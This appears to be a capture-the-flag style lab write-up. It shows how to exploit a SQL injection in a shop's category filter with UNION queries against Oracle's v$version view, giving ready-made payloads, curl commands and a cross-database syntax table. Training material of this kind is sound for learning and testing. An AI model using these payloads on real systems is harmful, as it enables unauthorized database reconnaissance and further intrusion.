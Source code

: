 # SQL injection attack, querying the database type and version on Oracle — Practitioner

**Status:** Solved

---

## Goal

Determine the Oracle database version by exploiting a SQL injection vulnerability. Display the version information on the page.

---

## Steps (simple & complete)

1. **Find the injection point**
   - Browse to the shopping application
   - Click on any product category:
```
   GET /filter?category=Gifts
```
   - This parameter is vulnerable to SQL injection

2. **Determine the number of columns**
   - Remember: Oracle requires `FROM dual` for queries without a real table
```
   Gifts' UNION SELECT NULL FROM dual--
   Gifts' UNION SELECT NULL,NULL FROM dual--
```
   - Let's say it has 2 columns

3. **Find text-compatible columns**
   - Test each column for string support:
```
   Gifts' UNION SELECT 'abc',NULL FROM dual--
   Gifts' UNION SELECT NULL,'abc' FROM dual--
```
   - Identify which column(s) can display text

4. **Query Oracle version information**
   - Oracle stores version in `v$version` system view
   - The `banner` column contains version string
   - Use UNION to retrieve it:
```
   Gifts' UNION SELECT banner,NULL FROM v$version--
```
   - Or if column 1 is text-compatible:
```
   Gifts' UNION SELECT NULL,banner FROM v$version--
```

5. **Execute the injection**
   
   If column 1 accepts text:
```bash
   curl -s "https://TARGET/filter?category=Gifts'+UNION+SELECT+banner,NULL+FROM+v$version--"
```
   
   If column 2 accepts text:
```bash
   curl -s "https://TARGET/filter?category=Gifts'+UNION+SELECT+NULL,banner+FROM+v$version--"
```

6. **Verify the version appears**
   - Look at the page output
   - You'll see something like:
     - "Oracle Database 11g Enterprise Edition Release 11.2.0.1.0 - 64bit Production"
     - "PL/SQL Release 11.2.0.1.0 - Production"
     - "CORE 11.2.0.1.0 Production"
   - The version string is displayed on the page

7. **Lab completion**
   - Lab solves automatically once version info is displayed
   - You've successfully queried Oracle system tables

---

## Example

- Vulnerable endpoint: `GET /filter?category=Gifts`
- Column count: 2 columns
- Column 2 accepts text

Payload:
```bash
curl -s "https://TARGET/filter?category=Gifts'+UNION+SELECT+NULL,banner+FROM+v$version--"
```

Output on page:
```
Product: Laptop - $999
Oracle Database 11g Enterprise Edition Release 11.2.0.1.0 - 64bit Production
PL/SQL Release 11.2.0.1.0 - Production
CORE 11.2.0.1.0 Production
Product: Mouse - $20
```

---

## Oracle-specific details

**v$version system view:**
- Contains database version information
- Multiple rows with different components
- `banner` column has human-readable version strings
- Accessible without special privileges

**Other Oracle version queries:**
- `SELECT * FROM v$version` - All version info
- `SELECT banner FROM v$version WHERE rownum=1` - Just first row
- `SELECT version FROM v$instance` - Short version number

**Why FROM dual is required:**
- Oracle enforces strict SQL syntax
- Every SELECT must have a FROM clause
- `dual` is a dummy table with exactly one row
- Built into every Oracle database
- Perfect for queries that don't need real tables

**Common Oracle system views:**
- `v$version` - Database version
- `v$database` - Database info
- `all_tables` - All accessible tables
- `all_tab_columns` - All accessible columns
- `user_tables` - Tables owned by current user

---

## Why this works

System views like `v$version` are designed to provide database metadata and are accessible to most database users. By combining UNION injection with Oracle's system views, we can extract sensitive information about the database configuration. Knowing the database version helps attackers identify known vulnerabilities, plan further attacks, and understand the database's capabilities and limitations.

---

## Key differences from other databases

| Feature | Oracle | MySQL | PostgreSQL | MSSQL |
|---------|--------|-------|------------|-------|
| **Version query** | `banner FROM v$version` | `@@version` | `version()` | `@@version` |
| **Dummy table** | `FROM dual` required | Not needed | Not needed | Not needed |
| **Comment** | `--` | `#` or `--` | `--` | `--` |
| **String concat** | `||` | `CONCAT()` | `||` | `+` |

---

**SQLi Lab 11 Complete ✓**